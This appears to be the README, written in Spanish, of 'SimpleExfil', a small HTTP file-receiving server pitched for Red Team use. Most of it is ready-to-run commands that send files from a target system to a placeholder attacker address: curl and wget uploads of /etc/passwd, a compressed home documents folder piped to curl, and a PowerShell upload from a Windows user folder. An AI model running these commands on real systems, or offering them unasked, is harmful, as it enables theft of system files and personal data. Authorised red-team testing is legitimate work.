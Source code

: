 # SimpleExfil
Un servidor HTTP simple para recepción de archivos diseñado para actividades de Red Team.

### - Exfiltrar archivos desde sistema objetivo
bash# curl -X POST -F "file=@/etc/passwd" http://[IP-ATACANTE]:8000
bash# wget --post-file=/path/to/file http://[IP-ATACANTE]:8000

### - Subir múltiples archivos
curl -X POST -F "file=@documento.txt" -F "file=@config.conf" http://[IP-ATACANTE]:8000

### - Comprimir y subir directorio
tar czf - /home/user/documents/ | curl -X POST -F "file=@-;filename=documents.tar.gz" http://[IP-ATACANTE]:8000

### - PowerShell (Windows)
powershell# Invoke-RestMethod -Uri "http://[IP-ATACANTE]:8000" -Method Post -InFile "C:\Users\user\document.txt" -ContentType "multipart/form-data"
